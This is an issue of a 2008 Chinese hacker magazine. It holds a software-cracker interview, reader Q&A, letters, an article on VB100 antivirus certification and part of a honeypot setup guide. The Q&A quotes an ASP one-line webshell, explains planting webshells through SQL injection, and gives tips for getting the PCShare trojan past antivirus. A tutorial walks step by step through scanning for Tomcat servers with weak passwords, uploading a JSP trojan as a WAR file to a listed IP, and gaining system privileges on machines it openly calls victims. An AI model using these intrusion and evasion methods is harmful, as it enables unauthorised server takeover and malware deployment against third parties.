10086: 目前对“有间破屋”有什么发展计划没有呢？

冷血书生: 因为空间问题，破屋基本难以容下更多的东西，所以我另外和朋友建立了一个破解动画吧，主要是和大家分享一些动画，动画主要是来源于网络，所以看到熟悉的内容并不足为奇，如果你也感兴趣，欢迎访问 www.crackmv.cn。

10086: 目前你是继续玩逆向还是玩别的了呢？

冷血书生: 其实我于去年初，前年底的时候，基本已经是淡出这个圈子了，但偶尔也会和大家交流一下，因为搞逆向确实需要花费非常多的时间，而且我的精力也不是很好，所以就搁一边了。

10086: 当初是如何走向逆向之路的呢？

冷血书生: 那时候还是大学时代，很多人在宿舍都会有电脑，而且大学时，课程不算很紧，经常是有一节课没一节课。实在无聊的课程，也会和一些人一样——逃课，所以那时候也有很多的时间上网聊天。后来加入了学生黑客联盟，现在来说，可能算是元老吧，因为一些管理人员是换了一批又一批，现在的基本都不认识了。那时候看到一个ID叫清风幻影的人，发过一些关于逆向方面的文章，又是连载性的，所以就对此产生了很大的兴趣，至今我还保存着他曾经发过的文章，虽然不多，但是很精。

10086: 我知道你当初发布过很多注册机和补丁，为什么突然又不发布了的呢？

冷血书生: 呵呵，那时候初学，或许对于每个初学者来说，发布这些与朋友分享，是一个快乐的事情，有时候看见很多人回帖会更开心。但是时间总是有限的，而且后来也慢慢淡出了，所以就没有发布这些东西了，并没有什么太大的原因。

10086: 噢，原来如此，那介意为什么会有淡出的想法呢？

冷血书生: 其实玩破解始终不是件好的事情，需要有良好的心态来对待，更主要的是，我没有太多的时间来投入到这件事情上来了，所以就打算淡出了。其实很多前辈都淡出来了，或许这就是个趋势吧，因为我玩破解纯粹是兴趣而已。

10086: 你认为什么是软件的逆向工程？

冷血书生: 逆向工程这个概念很大，还记得读初中时老师曾经讲过一个解题的逆推法，是由我们得到的结果一步一步推出最初的问题出来。一个非常明显的例子就是，比如我跟踪一个软件的注册，我通过代码得到了一个注册信息，那么从这个注册信息可以慢慢地推出注册算法来，从而可以了解到整个注册算法过程，我想这就是逆向的效果吧。还有一点就是，从程序代码中，去推出软件作者的设计思路出来，这一点也是一个逆推过程，或许我这么说，大家会容易理解一点。

10086: 你认为逆向工程合法吗？

冷血书生: 是否合法这比较难说，因为看待一件事物，都要看其两面性，如果只是调试软件是否存在漏洞的时候，我认为是合法，因为一个软件都必然会存在这样那样的一点小问题。一个人的精力是有限的，只有集合更多的人参与进来，软件才会越做越好，越来越受欢迎。简单来说，就是交流和学习。但是如果调试之后大面积散发注册机、补丁之类的东西，我建议大家还是不要了，好的软件，我是非常支持正版的。

10086: 当前不少人热衷于逆向技术学习，你是怎么看待这一现象的呢？

冷血书生: 有部分人可能是真的想学习，而有部分人可能是为了获取某些利益，网络是个虚幻的世界，有时候很难了解别人真正的意图，但是我还是非常支持大家学习逆向技术，尤其是软件作者，这样知己知彼，才能保证自己编写的软件并不容易被破解，可以在防破解上达到一定的效果。

10086: 学习逆向是否也和黑客一样，体验着寂寞的生活呢？

冷血书生: 确实，对我自己说，曾经没日没夜的研究和学习，其中的辛苦也只有自己才知道，因为你时间少了，进度自然会慢，所以不断地找资料，不断地看代码，不断地想作者的意图，寂寞，也只有自己才知道，但是成功的喜悦经常会盖过所有的寂寞。

10086: 对于逆向初学者，你觉得有什么建议呢？

冷血书生: 入门的方式有很多，比如有些人是先学习编程，再学习破解；而有些人是先学习破解，再学习编程。因为编程与破解正代表着加密与解密，是一场永远不会消失的战争，网络就是这个战场。我个人认为，先学习一点关于逆向方面的技巧和步骤，再学习一门编程，其他语言可以涉及一下，最好就是精通汇编，这样办起事来，自然会轻松很多。

10086: 现在有些人是带着商业目的学习的，你是如何看待商业破解呢？

冷血书生: 市场，主要还是市场，有求便会有供，市场就是一个供求关系，没有了求，自然就没有了供。现在很多人都编一些软件来卖，当然是软件作者想赚一点额外收入吧，毕竟，人总要吃饭。而一些商业软件在价格上会很高，甚至有些并不是一些小企业能够承担得起，于是商业破解就产生了。

10086: 我想有很多软件作者也会苦恼自己的软件经常被破解，对软件作者来说，你有什么好的安全建议呢？

冷血书生: 老实说，谁都不想自己编出来的软件一下子就被破解掉，这是软件作者最为苦恼的事情。我觉得软件作者至少会懂得或者比较了解一些破解技巧，可以在防爆破上做手脚，使用注册文件来保护自己的程序，又或者使用网络验证来保护，再加上一些比较成熟的密码学算法，对其进行一点小处理，这样能够最大限度保护好自己的软件。当然，被破解是时间上的问题，但最起码能够让软件活得长久一些。

10086: 最后我想一定有很多朋友想与你联系，共同探讨软件安全或者向你请教，可以公布一下你的联系方式吗？

冷血书生: 一般我都经常上破屋的论坛 http://www.crack520.cn/bbs，有问题的朋友可以直接到破屋的论坛找我，交流或者聊天也行，当然灌水的也欢迎。

## 采访后记:

风一样的出现，又风一样的消失，或许是他的一个特点吧。采访后，发现像冷血书生一样的前辈也是如此，对破解只是兴趣，当时间投入不进的时候，会悄然退出。但可惜的是，长江后浪推前浪，一批新人又浮出水面了，下一次将会带大家了解一下新锐破解手。

## (上接第104页)

不怕读者麻烦的某小编: 世界在变化，技术在更新，大家在进步！非常高兴看着一封封的读者来信，小菜是永远满足不了的，所以我愿意做小菜，这样才能鞭策自己学更多更新更实用的技术。当然，通俗易懂的文章读起来真是如沐春风，不但学到了知识，也是一种享受。黑手一直以来都在不断地调整，为的就是满足不同级别的读者朋友们的享受。相信在不同的期刊及图书产品中，会有你感兴趣的内容。

# Q&A

暑假鼠语：
在广大学生读者的假期生活中，鼓励大家勤奋学习、勇于提问，像李阳的疯狂英语一样，大声地说出来，武装自我！前方自是光明之路，不是么？Q&A的大门永远为有志之士而开！

邮箱：QA_nohack@126.com
主持人：徐前开

**Q：求助：服务器被5次shift**
我的服务器被人留了5次shift的后门，按键5次之后出来一个密码框，让输入他留的密码，请问各位大虾怎么去掉？还有就是从我服务器上怎么能知道他留的密码？多谢了。

**A：**其实shift后门很早就有人利用了，只是过去一年才浮出水面。在服务器上留这么个后门的确实是个良策，不过很多管理员也如同你一样知道了这种方法。shift后门是替换掉了Windows的sethc程序，你只要把备份文件和原文件替换回正常文件就能解决了。

为防被人再次利用，不妨建立一个sethc.exe的文件夹，再放一个sethc.\的目录，这样别人就替换不了了。或者写个程序监视一下system32的操作，方法是很多的。至于你说的获取别人后门的密码，那就看对方使用的是什么加密了，如果是rar自解压加密模式恐怕很难，如果是自己写程序验证，那就试试破解。还得提醒你一下，现在可替换的文件不止是粘滞键了，还有放大镜等。
URL: http://www.nohack.cn/bbs/thread-78239-1-10.html

**Q：关于架asp服务器**
我在安装好IIS后，在浏览器中输入http://localhost进行测试，但却要密码，怎么回事？还有，我架asp服务器，安装了SQL，还要安装ACCESS吗？

**A：**关于配置IIS出现的症状，一直是网络上谈论较多的话题。其实我在配置IIS的过程中也出现过相同状况，甚至是直接出现Server Application Error。具体谈谈你的情况吧，一般给出的较多解决办法是：
依次选择“我的电脑”->右键选择“管理”->“IIS选项”，展开浏览的站点后右键“属性”->“目录安全性”->“匿名访问”，点“编辑”，把“允许匿名访问”勾起来。

可能实际上这个方法并没有解决问题，还可以试试以下操作：打开网站所在目录属性，选择“权限选项卡”，删除所有的权限，添加IUSR_XXX和ADMINISTRATORS完全访问。

如果即使这样还不行的话，那不妨试试这个终极办法：依次选择“开始”->“设置”->“控制面板”->“管理工具”->“组件服务”，在“控制台根目录”->“组件服务”->“计算机”->“我的电脑”->“COM+应用程序”中，有一个“IIS Out-Of-Process Pooled”，鼠标右键“属性”——“标识”——把“此用户”调整为“交互式用户——目前已登录的用户”。然后“确定”，再鼠标右键“属性”——“启动”。

如果最后还是解决不了实际问题，可以新建一个虚拟目录，一般这样就不会需要IIS访问密码了。
至于架设好了IIS，安装了SQL是不需要安装ACCESS的，因为系统就自带了ODBC的数据源引擎，所以可以直接引用链接mdb数据库的。其实IIS是个问题户，不妨尝试一下NETBOX的组件环境，或者用PHPNOW架设一个apache环境。
URL: http://www.nohack.cn/bbs/thread-78908-1-1.html

**Q：求助，关于WEBSHELL的问题！**
`<%execute request("value")%>`这句话有什么作用？`<%execute request("a")%>`这样一句呢？求值的高手指点一二。

**A：**关于一句话木马的具体原理及作用，我就不再赘述了，相关资料可以baidu搜索“一句话木马详解”。至于一句话木马的利用，那就是仁者见仁，智者见智了。你可以把一句话木马插入到相关的活动脚本，这样可以起到比较好的隐蔽作用，也可以对于采用.asp这样的数据库中插入一句话木马；在SQL注入中的db_owner权限，基本都是利用组件读取web目录，然后利用log备份得到webshell，更有甚者可以对于那些注入的系统中利用asp，asa作为数据文件的，直接把一句话木马作为注入语句引入，从而直接得到webshell。这些都是一句话木马的应用层面，当然在实际入侵操作中的利用方法可能更多更灵活，其根本还是取决于你对一句话木马的掌握及实际针对的环境。
URL: http://www.nohack.cn/bbs/thread-78913-1-1.html

**Q：找到注入点了怎么利用？**
我用工具扫到了几个注入点，不知道怎么利用？权限是DB_OWNER，请各位大虾们赐教。

**A：**关于DB_OWNER权限，我在之前的一句话木马提问中谈到了具体的利用方法，当然对于xp_dirtree组件被删除的情况下，没有办法列举目录可能比较棘手，因为backup log是要指定web路径的。不妨尝试一下暴露路径或者暴库的漏洞来获取路径，当然你也可以直接利用注入工具得到管理员的数据后看可否扫到后台地址继而登录后台想办法。总之利用办法是可以变通的，例如可能利用探针或者其他系统暴露了物理地址。
URL: http://www.nohack.cn/bbs/thread-78903-1-1.html

**Q：pcshare免杀的问题**
有一个问题想请教，我做PS的免杀DLL文件已过瑞星，可是运行后生成的DLL文件却被杀，对被杀的DLL定位特征码在最后的“.”上，请问这个特征码怎么对应到原DLL文件中修改。

**A：**这是典型的附加数据的查杀，想必在制作pcshare免杀的朋友都遇到过此问题，金山毒霸也会查杀此附加数据。当然我也只是个菜鸟级别的免杀爱好者，就直接给出暗组论坛的一个针对此办法的帖子给大家参考吧：http://www.darkst.com/read.php?tid=17482&fpage=3

当然版本不同，具体的代码地址不同，关键是要理解原理，不妨先尝试用OD折半定位内存的办法找出内存地址。强烈建议不要制作类似鸽子、pcshare这种被杀毒软件举着大刀疯狂追杀的软件，特征码会经常更新的，挑选一款曝光率低但是能满足自己使用的木马就行了。
URL: http://www.nohack.cn/bbs/thread-78429-1-4.html

# 29 号信箱

**城市 / 天津**
**论坛 ID / 无**
**邮件 / 无**
您好！我是一名军人，因活动空间受限，已经很久没有再次购买《黑客手册》了。我曾经倾情于网络，梦想成为一名黑客，最终因参军未能实现。购买了《黑客手册》之后，梦想再次膨胀，里面一篇篇文章和各种尖端技术深深吸引着我。我希望也相信它能实现我的梦想，只是面对众多书籍，不知哪一本对我更有用，还请编辑部指点迷津，然后再邮购。

**亲自回复的老绵：**首先感谢部队官兵为祖国的稳定及高速发展所做出的贡献，致以最高的敬礼！有了你们的“为人民服务”，我们才感觉到现实的安全。新时代，新兵种，网络尖兵也是我们国防建设需要的人才！为了梦想而学习技术是永无止境的，知识永远是人类的精神食粮！
在这里也说一下，如果各位读者面对众多书籍，不知哪一本对自己更有用，编辑部为你分析一下：
首先从基础来看，《黑客术语图文词典》和《黑客社会工程学攻击》是首选，然后看看《黑客入门 饕餮网吧黑客2007》。接着的就是比较深奥的技术了，比如《精通脚本黑客》、《精通黑客免杀》和编程类的《精通黑客编程》了。当然，每期的杂志可以了解最近的技术，而合订本可以让你更容易的收藏。

**城市 / 武汉**
**论坛 ID / 没有**
**邮件 / 312627521@qq.com**
**→对于杂志内容，你有什么建议？**
在4年前就看见过黑技术类的书籍，但是当时自己很“贫穷”，只能看着那些书被一本本买走。现在上大学了，口袋里的钱总会支付一笔给“黑手”。喜欢“黑手”的文章，技术，一切的一切，虽然不一定全部懂，但是会很努力的去看。
对“黑手”的建议：就是希望文章、技术能够再清楚点。虽然我知道，小编们为了照顾我们这种菜鸟，收录的文章已经精心挑选了，但是，还是有些地方不太明白。比如提权，也许作者明白，小编明白，但是对于我这种没基础的鸟，还是不明白。看不懂的问题主要在自己，我会学习基础知识，毕竟凡事不能总麻烦小编们嘛，呵呵，最后，祝《黑客手册》越办越好！
(下转第103页)

# 非安全
## 安全入门
## 黑客手册
- ¥10元
- 2008.08
- WWW.NOHACK.CN
- 投稿Mail: nohack@21cn.com
- [本手册附带CD一两张, 不单独销售] ● 学习 ● 交流 ● 共享

### [新洞的诱惑]
- 最新php168系统漏洞分析与利用

### [狙击傲游]
- Dvbbs asp.net 0day
- 绕过验证——商贸通再爆致命之伤
- 致命诱惑——秒杀商业版常州房产网

### [提权]
- 高效率的UDF提权教程
- WIN + CISCO多重跳板并成功提权

### [Hack的实战]
- 从sa弱口令到成功开3389
- 拿下服务器并留下shift后门

### [免杀]
- ByShell
- 终极免杀实战

### [高手]
- 渗透时注意到的细节
- 跨站攻击实例
- One World! One Dream

### [社工]
- 菜鸟、良中社会工程学的爆发
- 一次社工反击引发的“惊涛巨浪”

### [玩转]
- 选择适合自己的QQ外挂
- 免费体验QQ全员及钻
- 将免费进行到底——QQ免费活动全攻略

### [技术文化]
- 黑客小编的负载均衡技术沙龙之旅

### [脚本破解]
- 菜鸟也来破热门外挂
- 手机游戏破解入门篇

### [防火墙]
- VB100的含金量

# 写在前面
# 北京奥运，安全压倒一切！

8月关注度最高的自然应当是北京奥运会啦！据悉,北京奥运信息安全保卫战已经在7月提前打响，由北京奥运会技术运营团队所负责。在2006年中期技术系统架构大致搭建起来以后，测试和演练已经成了他们常规性的工作。从7月8日北京奥运会倒计时1个月开始，这支技术团队已经从平日的项目状态过渡到运营阶段。

对于奥运会的IT系统来说，潜在问题按照其影响的范围以及大小，被分为4个等级区别对待：第4级是最低等级的潜在问题，影响范围只局限在个人；第3级问题则要扩大到小组或相应的规模；第2级问题就已经影响到一个场馆或者客户群；而最高的第1级问题，影响面将更大……

为了奥运，中国人民所做出的贡献是巨大的啊！临近奥运，北京各个与安全相关的部门都在进行奥运安保综合演练，考察一线人员处置突发事件的应变能力。

在本着“节俭办奥运”的原则，对场馆建设进行“瘦身”后，北京奥运的总体预算却不降反升，其中主要增加的便是反恐投入。对北京奥运安全的威胁主要来自三个方面：一是国际恐怖组织和恐怖分子针对特定国家或人员，实施恐怖袭击；二是中国国内以“东突”为代表的恐怖势力；三是严重刑事犯罪带来的安全问题。

而较之恐怖行动发生后的应对，北京已将更多的精力投入到如何防止恐怖行为的发生。其实，反恐任务显然已不仅仅局限于专业人员，生活在这个城市的几乎每个人都感受到与以往不一样的氛围，中国特有的行政管理体制正在反恐行动上显示出优势。

在奥运反恐行动中，中国也显然意识到加强与经验更为丰富的西方国家及国际组织合作的重要性。美国联邦调查局（FBI）局长罗伯特·穆勒曾低调访问了中国，访问的一个重点便是与中国相关部门商讨奥运安保合作事宜。而在此之前，中国已在信息共享、人员培训等方面，与国外进行了卓有成效的合作。

安全固然重要，但有人担心，奥运时的北京，是否会陷入到紧张的气氛中？国际奥委会对安保的要求是“有效、隐蔽”，也就是说，奥运参与者不能感觉到来自安全的潜在压力。其实，在北京奥运安保中，制服警员执勤的出现频率将会有所下降，取而代之的会是便装及隐蔽性安全监控人员——这正符合北京奥运确定的“隐形安保”理念。

北京正在努力办成一次“成功”的奥运会，而“成功”与否的标志，安全无疑是第一位的。等待2008年8月8日的来临，我相信那一天，每一个中华民族龙的传人都会“点燃激情，传递梦想”。

# 新闻深度 VB100 的含金量
文 / 刀锋

五年前，当国内反病毒软件厂商在内战中浴血厮杀之时，那些昔日的霸主如今肯定会心怀惆怅的悔恨，多年之前为什么不把更多的精力用来抵挡外敌。伴随着今天越来越多的国外反病毒软件入侵，期盼着既能够保卫本土市场，又能够瓜分全球蛋糕的中国反病毒厂商开始将自己的名誉与荣耀压在一个国外评测机构的认证中。于是 VB100，这样一个遥远而陌生的名词开始进入国人的视线。

## VB100 的游戏规则

VB100 是由英国非官方反病毒机构 Virus Bulletin 开设的一项评测认证，这项认证旨在对市场中的反病毒软件产品进行独立公正的比较与检测。Virus Bulletin 希望通过自己的独立检测，能够帮助消费者和厂商直观的鉴别出反病毒产品的病毒防护率和扫描速度。

这项始于1998年的测试奖项由于其苛刻的研判标准挫败过无数在大众眼中非常知名的杀毒软件。提交测试的每款反病毒产品都会在各个测试项目中得到评价，如设计、易用、特性和其他评委感兴趣的标准。

在 Virus Bulletin 的测试标准中，它所选用的是世界性组织 Wild List 病毒数据库作为反病毒软件杀毒能力测试的基准。参加测试的反病毒软件必须能够在手动扫描模式和被动检测模式下均辨认出病毒库中的病毒文件，并没有任何误判、遗漏和误杀的情况下，才能够获得这个以该机构检测认定的 VB100 认证，检测结果也将刊登在该机构主办的《Virus Bulletin Magazine》杂志中。

VB100 之所以会在众多的反病毒软件评测中被大众记住，就是因为其苛刻的规则。在 Virus Bulletin 制定的规则中，无论你是遗漏一个病毒还是一百个，对于它没有任何区别，均会被打上未通过的烙印。只有能够套杀测试中所有 Wildlist 中抽取的样本，才能被鉴定为 VB100 认证奖。加之 VB100 周期性的评选，没有一个杀毒软件能够成为一次不漏的获奖常胜将军。

但是通过了 VB100 测评的产品，都将获得一个“VB 100%”的认证标志，这个标志说明此测试产品已经依据该组织公平标准的评测模式，在宽泛的测试病毒样本中达到了 100% 的查杀与防范，并且没有对被估计添加进去的未染毒文件进行错误的查杀与操作。

由于严格苛刻的规定，在国际市场中，众多的国外反病毒厂商如同赌博一样将自己的反病毒软件发送给 Virus Bulletin 去评判。VB100 的获奖次数自然在消费者心中代表了软件 100% 杀毒的高效率，这在某种程度上也成为了反病毒厂商证明自己品质的资本与荣誉，而屡次获得 VB100 认证的反病毒软件在市场上也会受到用户的青睐。

## 认证的原动力

在 2005 年之前，国内的反病毒厂商几乎从来不会过多重视国外机构的评测，然而自 2005 年之后，国内的几家主流反病毒厂商开始越来越重视各种国外机构的认证与评测。而 VB100 更是被某些反病毒厂商屡屡提及，成为标榜反病毒水平技高一筹的证明。

追捧国外机构认证的反病毒厂商大多都以“走出国门必须与国际接轨”的语调来解释自己追捧 VB100 认证的缘由，但实际情况却并非如此。目前国内反病毒市场早已不是几年前三国鼎立的场面，在众多的反病毒软件蚕食国内市场的今天，越来越多的国内反病毒厂商已经在这场厮杀中表现的力不从心。

首先，包括卡巴斯基和 Nod32 在内的部分国外反病毒厂商，为了迅速渗透中国市场占用用户桌面，频频亮出免费的策略，这份“厚礼”的诱惑让那些烦透了各种加密手段的国内反病毒软件用户迅速变心。而国际反病毒商家的技术优势和完善的全球反病毒监测网更是在互联网时代体现了自己的优良品质，而这其中被频频提及用来证明产品实力的标志就是 VB100。

很快，在消费者的眼中，“外来的和尚会念经”，成为了国内反病毒软件的一大心病。因此 VB100 认证顺理成章的成为了国内反病毒软件拉近与国际反病毒软件距离的坐标。

VB100 除了能够成为国内反病毒软件拉近与国际间的距离之外，更重要的是它让国内反病毒厂商拥有了一张“国际标准”的品质认证，这对于那些急于迈出国门打入国际市场的反病毒厂商而言，无疑成为了跨出国界的一道门槛。因此在竞争日趋激烈的反病毒战场中，VB100的诱惑对于国内反病毒厂商而言，自然魅力难当，虽然他们中的大多数并不知道获得这个奖项后是否真的会对销售业绩的提升起到良好的作用。但是厂商们都直觉性的相信，贴上了VB100证书就要比没有贴更加权威，说话的底气也更加十足。

| 反病毒软件 | 参加测试次数 | 通过次数 | 失败次数 | 未准进入测试 |
| :--- | :--- | :--- | :--- | :--- |
| Kingsoft | 5 | 2 | 3 | 53 |
| Rising | 2 | 0 | 2 | 56 |
| Trend Micro | 27 | 16 | 11 | 31 |
| Symantec | 50 | 44 | 6 | 8 |
| Kaspersky | 58 | 42 | 16 | 0 |
| Eset | 53 | 50 | 3 | 5 |
| McAfee | 55 | 35 | 20 | 3 |
| CA eTrust | 47 | 34 | 13 | 11 |
| Panda | 4 | 1 | 3 | 54 |

统计截止日期：2008年6月
数据来源：Virus Bulletin 官方网站
表1 参加VB100%测试反病毒软件记录

### VB100真的完美吗?

看似公正与苛刻的VB100真的能够体现国内反病毒软件厂商的技术实力吗?这一点恐怕多数反病毒厂商自己都不相信。以国内唯一通过VB100的金山毒霸为例，它先后两次通过了VB100的测试，然而就在这两次中的一次测试中，金山却以120个误报、漏报，高达80%的失误率成为了那次测试中表现最差的反病毒软件。

当然其它软件也并不好过，包括卡巴斯基和Sophos在内的几个知名杀毒软件均在那次评测中被判定为不及格。以至于媒体在采访Virus Bulletin的技术顾问John Hawes时，他自己都对结果表示惊叹。但如今不到半年的时间，金山就又成为了通过VB100的胜利者。

其实VB100并非绝对公正而没有漏洞。虽然Virus Bulletin在尽量保持自己的Wildlist病毒样本库的权威性，但是仍然有人根据最近几年的测试结果推测出了VB100测试时经常惯用的病毒类型和相关比例，如今这已经成为厂商在软件送测前必读的“圣经”。通过分析，厂商往往能够制定一些有针对性的病毒库优化，从而大大提高在VB100测试中的通过率。

虽然许多国内反病毒厂商为了通过VB100认证用尽了各种手段，但是这个“权威”的证书究竟能够对软件的销售业绩起到多大的提升作用呢?似乎厂商并没有仔细计算过，但是值得注意的是，国内多数计算机用户并不知道VB100这项认证。没有消费者会仔细去细数那些印满了各种认证标志的杀毒软件包装盒上标志的数量。比起那些花花绿绿的标志，国内消费者似乎更加迷信“高手”推荐的产品。

但反病毒软件厂商显然不在乎用户是否会因为VB100而购买他们的产品，对于厂商而言，通过了认证一方面能够增加产品的公信力，另一方面也可以提高行业的门槛。在竞争日趋激烈的反病毒市场，厂商们太需要一个制造产品差异的卖点了，而VB100恰巧是一块份量十足，价格低廉，而且很有人缘的金牌。

## 利用Tomcat弱口令快捷抓鸡

从本文你可以学到：利用Tomcat弱口令快捷抓鸡。

有些服务器在Tomcat安装之后没有修改默认密码（用户名admin，密码为空），或者密码设置为很简单的弱口令，使得我们有机会可以轻松进入，然后传JSP马。

前段时间网上盛传利用Tomcat配置时出现弱口令来拿服务器的shell，了解之后打算把这个利用过程详细写下来同大家分享。现在的服务器web软件有超过七成是使用IIS，而生存在Unix之上的Tomcat可谓是中大型网站所采用web服务软件的首选。安全性虽然不错，但是再强的服务器只要有弱口令，也只有沦为肉鸡的份。

我们这次分别介绍两位作者所提供的不同方法：

## 一、作者清原长风的方法

首先，我们要在茫茫网海中找到存在弱口令的机器，可以使用一款名叫“Apache Tomcat Crack”的Tomcat弱口令扫描器。填上欲扫描的IP，先点“添加”把起始IP（扫描范围）添加到“地址段”，然后点“开始”，程序就开始工作了。一会儿就会在“结果”栏中看到找到的存在弱口令的机器信息（管理员地址、用户名、密码）。

这里可以多写几个段，然后挂服务器上扫。对了，这个软件在XP上貌似是扫不到的，所以必须得在Windows 2000或Windows 2003上，相信大家手上应该有1、2台服务器吧。如果没有也可以挂在自己的虚拟机上，这个问题应该不大。

将管理员地址 http://202.115.132.92:8080/manager/html ...放到浏览器中打开，如图3所示，并填上用户名和密码 (user:admin, pass:admin)，确定之后打开 Tomcat Web Application Manager 管理页，如图4所示，在“Application”中罗列了一些管理目录。

接下来我们制作一个 WAR 格式的 JSP 木马，因为直接上传 JSP 木马是不会成功的。我找了一个德国的 jspshell.jsp，并把它压缩到一个 ZIP 文件中 (压缩格式 RAR 不行，只能是 ZIP 的)，我这里压缩到 shell.zip 中。然后将这个 shell.zip 改名为 shell.war 就行了，如图5所示，这个 shell.war 就是我们需要的 war 格式的 jsp 木马。

木马做好了，我们在 Tomcat Web Application Manager 管理页中找到“WAR file to deploy”一栏，我们的木马就是从这里上去的，点“浏览”选择我们的 shell.war，如图6所示，点“Deploy”开始上传。

一会上传完毕后会在管理页“Application”栏中看到一个名为 shell 的新目录，如图7所示。点击进入该目录，会看到里面有个 jspshell.jsp (这就是我们最开始的 jsp 木马)，如图8所示。点击 jspshell.jsp 访问我们的 jsp 木马，访问成功，如图9所示，这样 shell 很顺利地拿到了。

# 二、作者马甲的方法

有两种利用方法，首先说下 ADMIN 目录的利用。在浏览器中输入 http://ip/admin 会出现如图10的界面，要求输入用户名和密码，这时只用按照扫描出的对应输入就进入了。

进入后如图11所示，点击左边 Service (Catalina)，选中 Host (localhost)，然后在右上角的 Available Actions 下拉菜单里选中 Create New Context，建立虚拟目录。Document Base 处填你想浏览的目录，比如 c:\，Path 随便取个名字，比如 nohack，如图12所示。

最后访问 http://ip/nohack 就可以看到 C 盘内容了，这跟下边要说的比起来比较鸡肋。

接着就是说 /manager/html 这个目录的利用了，是最关键的哦，一般情况下可以直接拿到系统最高权限。进入该目录以后，下边有个浏览，如图13所示，这里我们可以用来上传 JSP 木马。

不过不能直接传哦，必须得用 zip 打包到 war 文件里面后再传。上传后访问该虚拟目录下你的木马名.jsp 就搞定了，如图14所示，jsp 权限可是很大的，直接执行命令后拿到最高权限，如图15所示。

# 三、总结

如果 Tomcat 服务器存在这样的弱口令，拿 shell 不是难事，但是由于是 Unix 系统，提权对我们似乎会难些，只要大家关注 Unix 内核方面的漏洞，提权还是有望的，毕竟现在能用好 Unix 系统的人虽不少，但是及时更新内核的人还是不多的，我们的利用空间还是很大。最后祝大家抓鸡愉快！

编辑点评：
对利用 tomcat 弱口令抓鸡的文章貌似有点印象，但确实没有看到过用工具来完成前奏操作的，也不知道是不是我脑子的记忆问题，总之，很适合菜鸟去尝试一下。多学点知识总是好事啊！

# 蜜罐系统的应用（下）

风语：
终于到了夏天最热的时候了，我觉得最适合恶补的时间就是冬天和夏天。冬天太冷，不想出去，所以就躲在家里看看书恶补一下；夏天太热，也不想出去，所以也就躲在家里看看书恶补一下。买好干粮学那些武林高手高高手，关起门躲起来，美其名曰“闭关”。养的白白胖胖的出关了，路上遇到熟人，打个招呼，那人抓抓脑袋，一脸的诧异，满目的迷茫：“你是？？？”

图金婧婧

从本文您可以学到：
深入学习两款功能更强大的蜜罐

上一期我们已了解了两款功能较少较简易的蜜罐，下面将介绍另外两款功能较多更复杂的蜜罐。随着功能的增多，其提供的虚拟服务也更多更真实，但这种更复杂的蜜罐被识别后却是更有风险的，有些黑客能利用这种蜜罐作为跳板来攻击组织内其它系统。

## KFsensor

KFsensor 是一个基于 Windows 系统的蜜罐系统，可模拟 Windows 提供的各项服务和弱点，如 Windows 网络的 SMB、NETBIOS、CIFS，也可模拟 FTP、SMB、POP3、HTTP、TELNET、SMTP 与 SOCKS 等协定。此外还可检测到针对 Windows 档案分享的攻击。KFsensor 采用签署的方式对攻击进行判断，也可输入 Snort 格式规则来增强其防御强度。

图 1 KFsensor 的控制界面

在 http://www.keyfocus.net/kfsensor/download/ 可取得 KFSensor 的试用版和 WinPcap4.0.1 软件（只安装 KFSensor 可能会提示出错），并进行安装。安装完后需重新开机一次，接下来设定 KFSensor 参数，点击工具栏的设置导向（如图 2 中箭头所指的位置），在出现的设置界面，依照提示设置即可。

图 2 设置

现对一些常规设置做一些解释：

- Port Class 项：设置 KFSensor 模拟的系统服务，选择希望 KFSensor 模拟的服务。
- Domain 项：设置诱捕主机的 Domain Name（域名），但注意不要重复使用正常主机的 Domain Name。
- Email Alert 项：设置希望将资讯或警报寄到的电子邮件地址。这项功能使 KFSensor 的价值大大的提升。

图 3 设置界面

Option 项的设置如图 3 所示：

- 1、Denial Of Service Options：设置记录服务的程度，有 Normal（正常型）和 Cautious（谨慎型，设置的系统安全性较高）两种。
- 2、Port Active：设置端口活动时间，从 1 小时到 12 小时，共 12 个选项。
- 3、Proxy Emulation：设置代理。
- 4、Network Protocol Analyzer：设置网络协议分析，更好的侦测 ICMP 数据包，监听端口。

此外，还可开启 NetBios NBT SMB and RPC 服务，但必须要先关闭下面两个原本 Windows 会提供的服务。

## 关闭 NBT

- 1、选择“开始”—“控制面板”—“网络连接”。
- 2、进入后选择“本地连接”—“属性”—“Internet 协议（TCP/IP）”—“高级”。
- 3、选择“WINS”标签页，点选“禁用 TCP/IP 上的 NetBIOS”。
- 4、“确定”后离开。

## 关闭 SMB

- 1、“开始”—“运行”— 输入“regedit”。
- 2、找到 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\NetBT\Parameters。
- 3、将 TransportBindName 改名为 xTransportBindName。

注意，要确保主机没有安装其他会占用 KFSensor 模拟通讯端口的软件。然后，设定执行 KFSensor，以后也可在菜单栏“Scenario”中选择“Edit Scenario”对 KFSensor 所模拟的服务进行更细致的设定。

图 4 DEFNET Honeypot 2004 界面

## defnet

Defnet HoneyPot 2004 是一个著名的“蜜罐”虚拟系统，如图 4 所示，能模拟系统的“缺陷”引诱入侵者，并且更具真实性。下载地址为：http://www.xakep.ru/post/20223，解压后点击defnet.exe图标便可运行，不需安装。不过，有些系统不支持此软件，会提示出错。

DEFNET Honeypot 2004 的主界面也是相当简洁的，但其功能却是强很多。点击主界面右侧的 Options 设置项进行 defnet 运行设置，如图5所示，可设置警报方式和开放的端口。Defnet 提供了多种警报方式，支持远程信息通知，能更方便及时的通知管理员。

点击 Honeypot 项可对 defnet 模拟的服务进行设置。Defnet 可提供更真实的 Web、FTP、SMTP、Finger、POP3、Telnet 等几项常见服务。

图5 Option 设置界面

图6 Honeypot 设置页面

点击 Finger Server 的 Advanced 按钮可对 Finger Server 进行高级设置，如图7所示。defnet 自带了4个用户组，我们可对每个用户组的类型和同时可连接的账户个数进行设置。

想对 Telnet 进行更细致的设置，可点击 Telnet 的 Advanced 按钮。在出现的 Telnet 高级设置界面中，如图8所示，可设置伪装的驱动器盘符（Drive）、卷标（Volume）、序列号（serial no），以及目录创建时间和目录名、剩余磁盘空间（Free space in bytes）、MAC 地址、网卡类型等。这样，虚拟出的系统就更具真实度。

图7 Finger 高级设置项

图8 Telnet 高级设置界面

接下来，就是点击 Monitor，等待入侵者了，如图9所示，是 DEFNET 的检测记录。

图9 DEFNET 的检测记录

从 defnet 收集的检测信息我们可以方便的知道对方的 IP 地址、计算机名及所进行的活动。

## 自制蜜罐

前面介绍的几种蜜罐软件使用和管理都非常的方便，几乎所有人都可以轻松下载使用，但这些产品型蜜罐却有一定的局限性，并不一定能完全满足组织的要求。此时，不妨来创建自己的蜜罐。

